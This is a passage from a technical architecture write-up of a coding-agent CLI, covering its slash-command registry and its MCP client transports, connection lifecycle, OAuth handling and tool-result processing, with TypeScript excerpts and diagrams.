    class CommandBase {
        +string name
        +string description
        +string[] aliases
        +string source
        +string loadedFrom
        +CommandAvailability[] availability
        +boolean isHidden
        +boolean disableModelInvocation
        +boolean userInvocable
    }
    class PromptCommand {
        +string context
        +string model
        +string effort
        +string[] allowedTools
        +HooksSettings hooks
        +string[] paths
        +getPromptForCommand()
    }
    class LocalCommand {
        +function load()
    }
    class LocalJSXCommand {
        +function load()
    }
    CommandBase <|-- PromptCommand
    CommandBase <|-- LocalCommand
    CommandBase <|-- LocalJSXCommand
```

## Edge cases and failure modes

**Command name shadowing.** Because `findCommand` uses `Array.find` (first match), a user skill with the same name as a built-in command will shadow the built-in. The load order (bundled, builtin-plugin, skill-dir, workflow, plugin, built-in) means that user skills appear before built-in commands in the array, so they take precedence. This is intentional but can cause confusion when a user's `/commit` skill shadows the built-in commit command. The `formatDescriptionWithSource` function helps by annotating the source, so the user can see which version of the command they are invoking. The shadowing is by design: it allows users and projects to customize behavior without modifying the built-in commands, following the open-closed principle.

**Feature-gated command availability.** Many commands are conditionally registered based on `feature()` flags. If a feature flag is disabled at build time, the command does not exist in the registry at all -- there is no graceful fallback. Users who reference feature-gated commands in scripts or CLAUDE.md files will get "unknown command" errors if the flag is off. The `feature()` macro eliminates code at compile time, so even the `require()` calls for feature-gated modules are removed from the binary. This dead-code elimination is a performance optimization: it keeps the CLI binary small by excluding unused features, but it sacrifices runtime flexibility. The alternative (runtime feature flags with all commands always present) would bloat the binary and the command registry with commands that are never available.

**MCP command name collision.** MCP skills can collide with local skill names. The `uniqBy` call in `SkillTool.getAllCommands` deduplicates by name, with local commands taking precedence (they appear first in the merged array). This means an MCP server cannot override a local skill, which is the correct security default per HER Section 12.4. If two MCP servers expose skills with the same name, the first one registered wins (the `AppState.mcp.commands` array preserves insertion order). This is a weaker guarantee than the local-vs-MCP deduplication, and a malicious MCP server could potentially shadow another MCP server's skill by registering first.

**Bridge command injection.** The `isBridgeSafeCommand` predicate is the primary defense against command injection from mobile/web clients. Without it, a malicious client could send `/model` to pop a local Ink picker or `/config` to modify local settings. The allowlist approach (default deny) ensures that new commands require explicit review before they are exposed over the bridge. The PR #19134 that introduced this predicate was triggered by a real incident: `/model` from iOS was popping the local Ink picker on the host machine. The three-tier classification (prompt = safe, local-jsx = blocked, local = allowlist) provides a principled framework for evaluating new commands.

**Forked command MCP settle race.** In assistant mode, forked commands fire as background tasks. If MCP servers have not finished connecting when the task starts, the subagent may not have access to MCP tools. The `MCP_SETTLE_POLL_MS` (200ms) and `MCP_SETTLE_TIMEOUT_MS` (10s) constants define a polling loop that waits for MCP clients to reach non-pending state before launching the subagent. Without this settle period, the subagent would start without MCP tools and fail to complete tasks that require them. The 10-second timeout is a compromise: too short and slow SSE handshakes are not covered, too long and the user perceives unresponsiveness.

**Lazy-load failure.** Both `LocalCommand` and `LocalJSXCommand` use lazy-loading via the `load()` function. If the module fails to load (e.g., a missing dependency or a syntax error in the command module), the error is caught at the dispatch level and surfaced as a user-visible error message. The `getSkills` function wraps skill loading in try/catch at the Promise level, so a failure in one skill source does not prevent others from loading. This defensive pattern ensures that a single corrupt skill file does not break the entire command registry.

**Availability check timing.** The `meetsAvailabilityRequirement` function is not memoized, because auth state can change mid-session (e.g., after `/login`). This means it runs on every `getCommands()` call. However, the expensive part (disk I/O for skill loading) is memoized by `loadAllCommands`, so the fresh filtering adds negligible cost: it iterates the already-loaded array and checks boolean predicates. The separation of memoized loading from fresh filtering is a deliberate design choice that balances performance (avoiding redundant disk I/O) with correctness (reflecting auth state changes immediately).

**Command registration order vs. array ordering.** The `COMMANDS()` function returns commands in a fixed order determined by the source file's import order. This ordering is stable across sessions but not documented as part of the public API. If a new built-in command is added to the source file between existing commands, all subsequent commands shift their position in the array. This does not affect `findCommand` (which matches by name, not position), but it does affect the order of commands in typeahead and help displays. The `formatDescriptionWithSource` function's annotation helps users identify commands regardless of ordering.

## Where cc diverges from the published pattern

HER Section 7 (Configuration Surfaces) describes slash commands as one of six configuration surfaces, but the treatment is brief. CC's implementation differs in several ways:

1. **Three command types, not one.** The pattern implies a single command type (prompt expansion). CC supports three: prompt (expanded into the conversation), local (synchronous callback returning text), and local-jsx (callback that renders Ink UI). This three-type system enables both lightweight text commands (like `/cost`) and rich interactive UI (like `/doctor`). The discriminated union makes the type distinction explicit in the type system, preventing accidental misuse.

2. **Progressive disclosure via SkillTool.** The pattern does not describe a separate model-facing tool for command invocation. CC's `SkillTool` acts as an intermediary: the model sees a compact listing of available skills, and the full prompt content is loaded only on invocation. This is a direct implementation of HER Pattern 9 (Progressive Tool Expansion) applied to the command surface. The `getSkillToolCommands` function implements the filtering, excluding built-in commands and commands without descriptions from the model-facing listing.

3. **Feature-gated command registration.** CC uses the `feature()` Bun bundle macro to eliminate commands at compile time. This is more aggressive than runtime feature flags: commands that do not exist in the registry cannot be discovered or invoked. The pattern does not address build-time gating. The tradeoff is that feature-gated commands have no graceful degradation -- they are either fully available or completely absent.

4. **Bridge safety classification.** The pattern does not address remote access security for commands. CC's `REMOTE_SAFE_COMMANDS`, `BRIDGE_SAFE_COMMANDS`, and `isBridgeSafeCommand` implement a three-tier security model: some commands are safe for remote mode, some are safe for bridge (mobile/web) clients, and the rest are local-only. The default-deny approach ensures that new commands require explicit review before being exposed over any external interface.

5. **Dynamic skill discovery.** The pattern treats the command registry as static. CC's dynamic skill discovery (via `discoverSkillDirsForPaths` and `activateConditionalSkillsForPaths`) adds commands to the registry at runtime based on the files being operated on. This is an extension of the pattern's concept of "progressive disclosure" from the model's perspective to the filesystem's perspective: the registry grows as the agent explores the codebase.

6. **Internal-only commands.** The pattern does not address the need for internal-only tools that are not exposed to external users. CC's `INTERNAL_ONLY_COMMANDS` array and the `USER_TYPE === 'ant'` check create a separate command surface for internal users, enabling tools like `bughunter`, `commit`, and `autofixPr` that are too specialized or risky for general availability. The `IS_DEMO` environment variable provides an additional layer of exclusion, preventing internal commands from appearing in demo sessions even when the user type is correct.

7. **Lazy-loading as a bundle-size optimization.** The pattern does not discuss the impact of command registration on binary size. CC's lazy-loading pattern (via `load()` functions and conditional `require()` calls) keeps the CLI binary lean by deferring heavy dependencies until a specific command is invoked. The `usageReport` command is a notable example: its 113KB dependency is loaded only when `/insights` is actually invoked, saving 113KB from every CLI invocation that does not use insights. The conditional `require()` calls at the top of `commands.ts` follow the same pattern: feature-gated modules are only `require()`d when the feature flag is enabled, so the binary does not include their code when the flag is off.

## Developer takeaways for building a long-running agent

A discriminated-union command type (`prompt | local | local-jsx`) enables type-safe dispatch without runtime checks: each variant carries its own required fields while `CommandBase` guarantees consistency. Load order determines precedence: because `findCommand` uses `Array.find`, placing higher-priority sources (user skills, plugins) before built-in commands in the array makes shadowing automatic and predictable. The model-facing command listing must be a filtered subset of the full registry -- not every user-facing command should be model-facing -- and fields like `hasUserSpecifiedDescription` and `whenToUse` provide the filtering criteria. Any command surface exposed to external clients (bridge, remote mode, MCP) requires an explicit allowlist with default deny; the three-tier bridge-safety predicate (prompt = safe, local-jsx = blocked, local = allowlist) provides a principled framework. When launching subagents from background tasks, poll for MCP client readiness before starting to avoid silent failures from missing tools. Cache command loading aggressively (memoize disk I/O in `loadAllCommands`) but invalidate on auth changes by re-evaluating availability and `isEnabled` on every `getCommands` call. Use `CommandAvailability` for static auth requirements and `isEnabled()` for dynamic feature-flag checks; mixing these concerns causes slow or inconsistent registry behavior. Finally, lazy-load heavy command dependencies via `load()` functions to keep the CLI binary lean -- the `usageReport` command's 113KB dependency is a concrete example of deferring imports until invocation.

```mermaid
sequenceDiagram
    participant User as REPL Input
    participant PSP as parseSlashCommand
    participant CR as Command Registry
    participant SC as processSlashCommand
    participant Agent as runAgent
    User->>PSP: /commit -m "fix bug"
    PSP->>PSP: Strip /, split name + args
    PSP->>CR: findCommand("commit")
    CR-->>PSP: PromptCommand
    PSP->>SC: dispatch(command, args)
    SC->>SC: getMessagesForPromptSlashCommand
    alt context = fork
        SC->>Agent: runAgent(agentDef, promptMessages)
        Agent-->>SC: resultText
    else context = inline
        SC->>SC: Expand prompt into newMessages
        SC-->>User: Return messages to query loop
    end
```

```mermaid
flowchart
    A[User types /command] --> B{parseSlashCommand}
    B -->|No slash| C[Normal input]
    B -->|Has slash| D{findCommand}
    D -->|Not found| E[Unknown command error]
    D -->|Found| F{Command type?}
    F -->|prompt| G{context = fork?}
    G -->|yes| H[executeForkedSkill: runAgent]
    G -->|no| I[Expand prompt into messages]
    F -->|local| J[load + call: return text]
    F -->|local-jsx| K[load + call: render Ink UI]
    H --> L[Return forked result]
    I --> M[Send to model as user message]
    J --> N[Display text result]
    K --> O[Render interactive UI]
```
# MCP: Clients, Transports, and Lifecycle

## Overview

The Model Context Protocol (MCP) is cc's primary extension mechanism for adding external tools and capabilities at runtime. An MCP server exposes tools, resources, and prompts over a standardized JSON-RPC transport. cc acts as an MCP client, connecting to configured servers at startup and surfacing their capabilities as first-class tools in the agent's action space. The MCP subsystem spans six source files: `client.ts` (connection management and tool invocation), `config.ts` (server configuration loading), `auth.ts` (OAuth and Cross-App Access flows), `types.ts` (schema definitions), `MCPConnectionManager.tsx` (React context for UI), and `mcp.ts` (the cc-as-MCP-server entrypoint).

This chapter examines the transport layer (stdio, SSE, HTTP, WebSocket, SDK), the connection lifecycle (pending to connected, reconnect strategies, auth-gated flows), the OAuth implementation (including Cross-App Access via IdP), and the security model that treats MCP servers as untrusted third-party code (HER Section 12.4). The interaction between MCP tool discovery and `ToolSearch` (HER Pattern 9) is covered: MCP tools are deferred by default and loaded lazily when the model requests them.

## Data structures and contracts

The `MCPServerConnection` discriminated union tracks the state of each server connection. A server progresses through five states: pending, connected, failed, needs-auth, and disabled.

```typescript
// src/services/mcp/types.ts:L180-L227 — Server connection states
export type ConnectedMCPServer = {
  client: Client
  name: string
  type: 'connected'
  capabilities: ServerCapabilities
  serverInfo?: {
    name: string
    version: string
  }
  instructions?: string
  config: ScopedMcpServerConfig
  cleanup: () => Promise<void>
}

export type FailedMCPServer = {
  name: string
  type: 'failed'
  config: ScopedMcpServerConfig
  error?: string
}

export type NeedsAuthMCPServer = {
  name: string
  type: 'needs-auth'
  config: ScopedMcpServerConfig
}

export type PendingMCPServer = {
  name: string
  type: 'pending'
  config: ScopedMcpServerConfig
  reconnectAttempt?: number
  maxReconnectAttempts?: number
}

export type DisabledMCPServer = {
  name: string
  type: 'disabled'
  config: ScopedMcpServerConfig
}

export type MCPServerConnection =
  | ConnectedMCPServer
  | FailedMCPServer
  | NeedsAuthMCPServer
  | PendingMCPServer
  | DisabledMCPServer
```

The `ConnectedMCPServer` variant carries the MCP SDK `Client` instance, the server's declared `capabilities`, optional `serverInfo` and `instructions`, and a `cleanup` function that gracefully disconnects the client and removes event listeners. The `FailedMCPServer` variant includes an optional `error` string for diagnostics. The `NeedsAuthMCPServer` variant signals that the server requires OAuth authentication and the user has not yet authorized. The `PendingMCPServer` variant tracks reconnection state with `reconnectAttempt` and `maxReconnectAttempts` counters. The `DisabledMCPServer` variant represents a server that the user has explicitly toggled off.

The `ScopedMcpServerConfig` type augments the base `McpServerConfig` with a `scope` field and an optional `pluginSource` for plugin-provided servers:

```typescript
// src/services/mcp/types.ts:L163-L169 — Scoped config with source tracking
export type ScopedMcpServerConfig = McpServerConfig & {
  scope: ConfigScope
  // For plugin-provided servers: the providing plugin's LoadedPlugin.source
  // (e.g. 'slack@anthropic'). Stashed at config-build time so the channel
  // gate doesn't have to race AppState.plugins.enabled hydration.
  pluginSource?: string
}
```

The scope determines precedence when the same server is configured in multiple sources: enterprise policy overrides user settings, which override project settings. The seven config scopes are defined by the `ConfigScopeSchema` enum at `src/services/mcp/types.ts:L10-L20`.

The transport types are defined as a Zod enum:

```typescript
// src/services/mcp/types.ts:L23-L26 — Transport types
export const TransportSchema = lazySchema(() =>
  z.enum(['stdio', 'sse', 'sse-ide', 'http', 'ws', 'sdk']),
)
```

Each transport type has its own config schema. The most common is `McpStdioServerConfig` (for local process-based servers):

```typescript
// src/services/mcp/types.ts:L28-L35 — Stdio server config
export const McpStdioServerConfigSchema = lazySchema(() =>
  z.object({
    type: z.literal('stdio').optional(), // Optional for backwards compatibility
    command: z.string().min(1, 'Command cannot be empty'),
    args: z.array(z.string()).default([]),
    env: z.record(z.string(), z.string()).optional(),
  }),
)
```

The `sse-ide` transport type is a variant of SSE used by the IDE bridge, which injects an IDE-specific URL instead of reading it from the server config. The `sdk` transport type is used for in-process servers registered by the IDE bridge, which bypass the network layer entirely.

## Control flow

### Server configuration loading

The `config.ts` module loads MCP server configurations from multiple sources with a defined precedence. The `getAllMcpConfigs` function merges configs from: managed enterprise policy, user settings (`~/.claude.json`), project settings (`.claude/settings.json`), `.mcp.json` files (in the project root), claude.ai connectors, and plugin-provided servers. Each config is annotated with its `scope` so that the UI can display where a server was configured.

The `addScopeToServers` utility annotates each server config with its scope:

```typescript
// src/services/mcp/config.ts:L69-L81 — Scope annotation
function addScopeToServers(
  servers: Record<string, McpServerConfig> | undefined,
  scope: ConfigScope,
): Record<string, ScopedMcpServerConfig> {
  if (!servers) {
    return {}
  }
  const scopedServers: Record<string, ScopedMcpServerConfig> = {}
  for (const [name, config] of Object.entries(servers)) {
    scopedServers[name] = { ...config, scope }
  }
  return scopedServers
}
```

The `writeMcpjsonFile` function atomically writes `.mcp.json` using a temp file + rename pattern. It preserves existing file permissions and flushes to disk before renaming, preventing partial writes from corrupting the config:

```typescript
// src/services/mcp/config.ts:L88-L131 — Atomic .mcp.json write
async function writeMcpjsonFile(config: McpJsonConfig): Promise<void> {
  const mcpJsonPath = join(getCwd(), '.mcp.json')

  // Read existing file permissions to preserve them
  let existingMode: number | undefined
  try {
    const stats = await stat(mcpJsonPath)
    existingMode = stats.mode
  } catch (e: unknown) {
    const code = getErrnoCode(e)
    if (code !== 'ENOENT') {
      throw e
    }
    // File doesn't exist yet -- no permissions to preserve
  }

  // Write to temp file, flush to disk, then atomic rename
  const tempPath = `${mcpJsonPath}.tmp.${process.pid}.${Date.now()}`
  const handle = await open(tempPath, 'w', existingMode ?? 0o644)
  try {
    await handle.writeFile(jsonStringify(config, null, 2), {
      encoding: 'utf8',
    })
    await handle.datasync()
  } finally {
    await handle.close()
  }

  try {
    // Restore original file permissions on the temp file before rename
    if (existingMode !== undefined) {
      await chmod(tempPath, existingMode)
    }
    await rename(tempPath, mcpJsonPath)
  } catch (e: unknown) {
    // Clean up temp file on failure
    try {
      await unlink(tempPath)
    } catch {
      // Best-effort cleanup
    }
    throw e
  }
}
```

The temp file name includes both the process ID and a timestamp to ensure uniqueness across concurrent writes from different processes. The `datasync()` call flushes the file's data to stable storage before the rename, ensuring that the file contents are durable even if the system crashes immediately after the rename. The `chmod` call before rename preserves the original file's permissions, so a `.mcp.json` with restrictive permissions (e.g., 0o600) does not become world-readable after a config update.

### Plugin MCP server deduplication

The `dedupPluginMcpServers` function prevents plugin-provided MCP servers from duplicating manually-configured servers. The deduplication uses a signature-based approach: two server configs with the same signature (computed by `getMcpServerSignature`) are considered "the same server." For stdio servers, the signature is `stdio:` followed by the JSON-encoded command array. For URL-based servers, the signature is `url:` followed by the unwrapped CCR proxy URL.

```typescript
// src/services/mcp/config.ts:L202-L212 — Server signature computation
export function getMcpServerSignature(config: McpServerConfig): string | null {
  const cmd = getServerCommandArray(config)
  if (cmd) {
    return `stdio:${jsonStringify(cmd)}`
  }
  const url = getServerUrl(config)
  if (url) {
    return `url:${unwrapCcrProxyUrl(url)}`
  }
  return null
}
```

Plugin servers are namespaced with a `plugin:name:server` prefix so they never key-collide with manual servers in the merge. The content-based deduplication catches the case where both a manual server and a plugin server launch the same underlying process or connect to the same URL. Manual servers always win; between plugins, the first-loaded server wins. Suppressed servers are reported in the `suppressed` array for logging and diagnostics.

### Transport connection establishment

The `client.ts` module creates transport instances based on the server config type. For `stdio` servers, it uses `StdioClientTransport` from the MCP SDK, which spawns the configured command as a child process. The child process inherits environment variables from the cc process, augmented by the `env` field in the server config. For `sse` and `http` servers, it uses `SSEClientTransport` and `StreamableHTTPClientTransport` respectively, with proxy and TLS configuration. For `ws` servers, cc provides its own `WebSocketTransport` implementation with TLS and proxy support. The `sdk` transport type is used for in-process servers registered by the IDE bridge.

The connection process handles several failure modes:

1. **Auth-gated servers.** If the server requires OAuth and no tokens are available, the connection transitions to `needs-auth` rather than `failed`. The `McpAuthTool` surfaces a re-authentication flow to the user. The `handleRemoteAuthFailure` function emits a `tengu_mcp_server_needs_auth` analytics event, caches the needs-auth entry (with a 15-minute TTL to avoid repeated auth prompts), and returns the `NeedsAuthMCPServer` variant. The auth cache is stored in `~/.claude/mcp-needs-auth-cache.json` and checked via `isMcpAuthCached` before attempting reconnection. The cache serialization uses a `writeChain` promise chain to prevent concurrent read-modify-write races when multiple servers return 401 in the same batch.

2. **Disabled servers.** The `isMcpServerDisabled` function checks whether the user has explicitly disabled a server via the MCP settings UI. Disabled servers are skipped during the connection phase and appear as `DisabledMCPServer` in the connection registry. The user can re-enable a server via the `toggleMcpServer` function in the `MCPConnectionManager` context, which transitions the server back to `PendingMCPServer` and starts the connection process from scratch.

3. **Session expiry.** MCP servers return HTTP 404 with JSON-RPC code -32001 when a session ID is no longer valid. The `isMcpSessionExpiredError` function detects this pattern and triggers a reconnect:

```typescript
// src/services/mcp/client.ts:L193-L206 — Session expiry detection
export function isMcpSessionExpiredError(error: Error): boolean {
  const httpStatus =
    'code' in error ? (error as Error & { code?: number }).code : undefined
  if (httpStatus !== 404) {
    return false
  }
  // The SDK embeds the response body text in the error message.
  // MCP servers return: {"error":{"code":-32001,"message":"Session not found"},...}
  // Check for the JSON-RPC error code to distinguish from generic web server 404s.
  return (
    error.message.includes('"code":-32001') ||
    error.message.includes('"code": -32001')
  )
}
```

The dual-signal check (HTTP 404 + JSON-RPC code -32001) avoids false positives from generic web server 404s (wrong URL, server decommissioned, etc.). The string-matching approach (checking for the code in the error message) is used because the MCP SDK embeds the response body text in the error message rather than parsing it into a structured error object.

4. **Tool call errors.** When an MCP tool returns `isError: true`, cc throws a tool call error class which carries the result's `_meta` field so SDK consumers can still receive it. Per the MCP specification, `_meta` is on the base Result type and is valid on error results. The base class ensures that the error message is safe for analytics logging (no PII or sensitive data). The `mcpMeta` field preserves the `_meta` property from the MCP result, which is important for structured error reporting where the error itself contains actionable information (e.g., a redirect URL or a retry-after value).

### OAuth flow

The `auth.ts` module implements the full OAuth 2.0 Authorization Code flow with PKCE for MCP servers that require authentication. The `ClaudeAuthProvider` class implements the MCP SDK's `OAuthClientProvider` interface.

The flow handles several edge cases specific to real-world OAuth deployments:

1. **Non-standard error codes.** Some OAuth servers (notably Slack) return HTTP 200 with `{"error": "invalid_refresh_token"}` in the body, where RFC 6749 specifies `invalid_grant`. The `normalizeOAuthErrorBody` function rewrites these 200 responses to 400 so that the SDK's error-class mapping applies correctly.

```typescript
// src/services/mcp/auth.ts:L147-L151 — Non-standard error normalization
const NONSTANDARD_INVALID_GRANT_ALIASES = new Set([
  'invalid_refresh_token',
  'expired_refresh_token',
  'token_expired',
])
```

The normalization is applied at the HTTP layer, before the SDK's error-handling logic sees the response. This ensures that the SDK's retry and token-refresh logic works correctly regardless of the server's error code conventions. The `NONSTANDARD_INVALID_GRANT_ALIASES` set is deliberately extensible: as new servers with non-standard error codes are discovered, their error strings can be added to the set without modifying the normalization logic.

2. **OAuth discovery failure.** The `discoverAuthorizationServerMetadata` function fetches the server's `/.well-known/oauth-authorization-server` endpoint. If the server does not support OAuth discovery (returns 404 or does not have the endpoint), the `ClaudeAuthProvider` falls back to using the server's base URL as the authorization and token endpoints. This fallback is necessary for MCP servers that implement OAuth but do not support the discovery protocol.

3. **Cross-App Access (XAA).** Enterprise users can authenticate MCP servers through a corporate Identity Provider (IdP) rather than the server's own OAuth flow. The `isXaaEnabled` function checks settings, and `acquireIdpIdToken` obtains a token from the configured OIDC provider. This enables single sign-on across all MCP servers in an enterprise deployment. The `performCrossAppAccess` function in `xaa.ts` exchanges the IdP token for the MCP server's access token, handling the OIDC flow and token caching.

4. **Sensitive parameter redaction.** The `redactSensitiveUrlParams` function strips `state`, `nonce`, `code_challenge`, `code_verifier`, and `code` from URLs before logging, preventing CSRF and session fixation attack vectors from appearing in debug logs. The `SENSITIVE_OAUTH_PARAMS` constant at `src/services/mcp/auth.ts:L100-L106` defines the set of parameters to redact.

5. **Auth cache with TTL.** The `isMcpAuthCached` function checks a 15-minute cache before prompting the user for authentication. Without this cache, a server that returns 401 on every connection attempt would generate an auth prompt on every startup. The cache is stored in `~/.claude/mcp-needs-auth-cache.json` and serialized through a promise chain (`writeChain`) to prevent concurrent read-modify-write races when multiple servers return 401 in the same batch. The cache read is memoized (`authCachePromise`) so that N concurrent `isMcpAuthCached` calls during batched connection share a single file read instead of N reads of the same file.

6. **Claude.ai proxy fetch with retry.** The `createClaudeAiProxyFetch` function wraps the fetch function for claude.ai proxy connections. It attaches the OAuth bearer token and retries once on 401 via `handleOAuth401Error` (force-refresh). The retry is gated on whether the token actually changed: if the keychain has a newer token or the force-refresh succeeds, the request is retried; otherwise, the 401 is propagated. This prevents a single stale token from mass-401ing every claude.ai connector. The function captures the exact token that was sent before the request, not reading it again after a concurrent 401, to avoid a subtle race where another connector's `handleOAuth401Error` clears the memoize cache between the request and the retry decision.

### MCP server mode (cc as server)

The `mcp.ts` entrypoint exposes cc's own tools as an MCP server. It creates an MCP `Server` instance with `ListToolsRequestSchema` and `CallToolRequestSchema` handlers, connects via `StdioServerTransport`, and exposes all cc tools (excluding MCP tools to prevent recursion) with their Zod schemas converted to JSON Schema via `zodToJsonSchema`.

```typescript
// src/entrypoints/mcp.ts:L35-L57 — MCP server setup
export async function startMCPServer(
  cwd: string,
  debug: boolean,
  verbose: boolean,
): Promise<void> {
  // Use size-limited LRU cache for readFileState to prevent unbounded memory growth
  // 100 files and 25MB limit should be sufficient for MCP server operations
  const READ_FILE_STATE_CACHE_SIZE = 100
  const readFileStateCache = createFileStateCacheWithSizeLimit(
    READ_FILE_STATE_CACHE_SIZE,
  )
  setCwd(cwd)
  const server = new Server(
    {
      name: 'claude/tengu',
      version: MACRO.VERSION,
    },
    {
      capabilities: {
        tools: {},
      },
    },
  )
```

The `createFileStateCacheWithSizeLimit` call at line 43 sets up a size-limited LRU cache for the read-before-write contract, and `setCwd(cwd)` at line 46 establishes the working directory for tool execution. The server mode is useful for integrating cc into other tools (IDEs, CI systems) that act as MCP clients. The tool exclusion (removing MCP tools from the listing) prevents infinite recursion: if cc connected to itself as an MCP server, it would expose the same MCP tools it uses as a client, creating a loop.

### MCPConnectionManager React context

The `MCPConnectionManager.tsx` component provides a React context with `reconnectMcpServer` and `toggleMcpServer` functions. These are consumed by the MCP settings UI to allow users to reconnect failed servers or toggle servers on/off without restarting the session. The context uses `useMemo` to stabilize the context value and prevent unnecessary re-renders.

```typescript
// src/services/mcp/MCPConnectionManager.tsx:L7-L15 — Context interface
interface MCPConnectionContextValue {
  reconnectMcpServer: (serverName: string) => Promise<{
    client: MCPServerConnection;
    tools: Tool[];
    commands: Command[];
    resources?: ServerResource[];
  }>;
  toggleMcpServer: (serverName: string) => Promise<void>;
}
```

The `reconnectMcpServer` function returns the updated connection state, tools, commands, and resources after reconnection. This allows the UI to update immediately without waiting for the next render cycle. The `toggleMcpServer` function transitions between `connected` and `disabled` states. When a server is disabled, it is disconnected and its tools are removed from the model's action space. When re-enabled, the connection process starts from scratch (pending -> connected/failed/needs-auth). The `reconnectMcpServer` function forces a reconnection for servers in the `failed` state, incrementing the `reconnectAttempt` counter and retrying the transport handshake.

The `useMcpReconnect` and `useMcpToggleEnabled` hooks provide type-safe access to the context functions. They throw if used outside the `MCPConnectionManager` provider, which prevents accidental use in components that are not descendants of the provider.

### Tool invocation and output handling

When the model invokes an MCP tool, the `MCPTool.call()` method in `src/tools/MCPTool/MCPTool.ts` routes the request to the appropriate connected MCP client. The tool result is processed through several layers:

1. **Description length capping.** OpenAPI-generated MCP servers have been observed dumping 15-60KB of endpoint documentation into `tool.description`. The `MAX_MCP_DESCRIPTION_LENGTH` (2048 characters) constant at `src/services/mcp/client.ts:L218` caps the p95 tail without losing the intent. This is a direct mitigation for the "too many tools is bad" warning from HER Section 7.2: excessively long tool descriptions push the model into "the dumb zone" by consuming context window tokens without adding actionable information.

2. **Content size estimation.** `getContentSizeEstimate` checks if the result exceeds token limits.

3. **Truncation.** `truncateMcpContentIfNeeded` truncates large results with a summary. The truncation preserves the beginning and end of the result, with a summary of what was removed. This is a form of observation masking (HER Section 8.1) applied to MCP outputs.

4. **Binary content persistence.** `persistBinaryContent` saves binary data (images, files) to disk and returns a reference instead of embedding it inline. Without this, a large image returned by an MCP tool would consume thousands of tokens in the model's context window.

5. **Image resizing.** `maybeResizeAndDownsampleImageBuffer` downsamples large images to reduce token cost. The resizing is applied before the image is added to the conversation, so the model never sees the full-resolution version.

6. **Elicitation handling.** If the MCP server sends an `ElicitRequest`, the `runElicitationHooks` function in `src/services/mcp/elicitationHandler.ts` prompts the user for input and returns it to the server. Elicitation is a server-initiated request for user input, allowing MCP servers to ask clarifying questions during tool execution. The elicitation handler also runs `runElicitationResultHooks` to allow hooks to intercept or modify the user's response before it is sent back to the server.

7. **Unicode sanitization.** `recursivelySanitizeUnicode` removes invalid Unicode sequences from MCP tool results. Some MCP servers return malformed UTF-8 that would cause JSON parsing errors downstream.

8. **Tool timeout.** The default MCP tool timeout is effectively infinite, defined by `DEFAULT_MCP_TOOL_TIMEOUT_MS` at `src/services/mcp/client.ts:L211` as 100 million milliseconds (approximately 27.8 hours), configurable via the `MCP_TOOL_TIMEOUT` environment variable. The infinite default is intentional: MCP tools can perform long-running operations (running test suites, building projects, waiting for CI). The timeout is per-tool-call, not per-connection, so a slow tool call does not affect other tools from the same server.

9. **Recursive tool exclusion.** When cc runs as an MCP server (the `mcp.ts` entrypoint), it excludes MCP tools from its own tool listing to prevent infinite recursion. If cc connected to itself as an MCP server, it would expose the same MCP tools it uses as a client, creating a loop where each tool invocation triggers another server connection.

### MCP tool collapse classification

The `classifyMcpToolForCollapse` function in `src/tools/MCPTool/classifyForCollapse.ts` categorizes MCP tools for compaction. When context is compacted, less-important MCP tool results are summarized more aggressively, reducing the token cost of MCP-sourced content. The classification uses heuristics (tool name patterns, result size, recency) to determine which results can be safely summarized without losing critical information. This is another application of HER Pattern 9: even after tools are loaded, their results can be progressively summarized as they age in the context window.

## Edge cases and failure modes

**Session expiry during tool invocation.** MCP servers that use session-based transports (SSE, HTTP) can expire sessions between tool calls. The `McpSessionExpiredError` class signals that the connection cache must be cleared and a new client obtained via `ensureConnectedClient`. The caller retries the tool call with the fresh client. The session-expiry detection uses a dual-signal check (HTTP 404 + JSON-RPC code -32001) to avoid false positives from generic 404 errors.

**OAuth token refresh failure.** The `tengu_mcp_oauth_refresh_failure` analytics event tracks six distinct failure reasons: `metadata_discovery_failed`, `no_client_info`, `no_tokens_returned`, `invalid_grant`, `transient_retries_exhausted`, and `request_failed`. The `invalid_grant` case triggers token invalidation, forcing a full re-authorization flow. The `transient_retries_exhausted` case indicates that the server is temporarily unavailable; the auth cache (15-minute TTL) prevents repeated prompt spam.

**MCP server returning isError.** Per the MCP specification, `_meta` is valid on error results. The tool call error class preserves `_meta` so that SDK consumers can still access it. This is important for structured error reporting where the error itself contains actionable information (e.g., a validation error with field-level details, or a rate-limit error with a `retry-after` header).

**Tool result truncation.** Large MCP tool results are truncated with `truncateMcpContentIfNeeded` to stay within token budgets. The truncation preserves the beginning and end of the result, with a summary of what was removed. This is a form of observation masking (HER Section 8.1) applied to MCP outputs. The truncation is applied at the tool-result level, not at the context-compaction level, so it takes effect immediately rather than waiting for the next compaction cycle.

**CCR proxy URL unwrapping.** In remote sessions, MCP server URLs are rewritten to route through the CCR session ingress proxy. The `unwrapCcrProxyUrl` function extracts the original vendor URL from the `mcp_url` query parameter for deduplication. Without this, the same MCP server would appear twice in the registry: once with the raw URL and once with the proxy URL. The `CCR_PROXY_PATH_MARKERS` array at `src/services/mcp/config.ts:L171-L174` defines the URL path patterns that identify CCR proxy URLs: `/v2/session_ingress/shttp/mcp/` and `/v2/ccr-sessions/`.

**Plugin server deduplication.** The `dedupPluginMcpServers` function prevents plugin-provided MCP servers from duplicating manually-configured servers. The deduplication is signature-based: two configs with the same `stdio:` or `url:` signature are considered "the same server." Manual servers always win; between plugins, first-loaded wins. The deduplication is necessary because plugin servers are namespaced with a `plugin:name:server` prefix (so they never key-collide in the merge), but they may launch the same underlying process or connect to the same URL as a manually-configured server.

**Data leakage between contexts.** HER Section 6.15 warns that file-based communication between contexts can leak sensitive data. MCP resources (accessed via `ListMcpResourcesTool` and `ReadMcpResourceTool`) are a potential leakage vector: an MCP server could expose resources from one context that the model then incorporates into another. CC mitigates this by requiring explicit tool invocation to read MCP resources, but the model's context window is shared across all tool results.

**MCP tool timeout.** The default MCP tool timeout is effectively infinite (`DEFAULT_MCP_TOOL_TIMEOUT_MS` = 100,000,000 ms at `src/services/mcp/client.ts:L211`). This is intentional: MCP tools can perform long-running operations (running test suites, building projects, waiting for CI). The `MCP_TOOL_TIMEOUT` environment variable allows users to configure a shorter timeout. The timeout is per-tool-call, not per-connection, so a slow tool call does not affect other tools from the same server. The tradeoff is that a hung MCP tool can block the agent indefinitely, but the alternative (a short timeout) would prematurely terminate legitimate long-running operations.

